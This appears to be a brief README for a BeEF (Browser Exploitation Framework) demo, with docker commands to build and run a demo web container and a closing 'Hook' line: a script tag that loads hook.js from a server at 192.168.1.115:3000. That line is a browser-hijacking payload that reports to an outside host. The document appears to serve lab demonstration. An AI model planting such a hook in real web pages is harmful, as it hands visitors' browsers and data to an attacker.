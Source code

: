 # Demo for beef


### build docker image
```
docker build -t demo-beef:latest .
```

### create docker container
```
docker run --rm -d -p 8080:80 --name demo-beef demo-beef:latest
```

### start docker conatiner
```
docker start demo-beef
```

---
Hook
```
<script src="http://192.168.1.115:3000/hook.js"></script>
```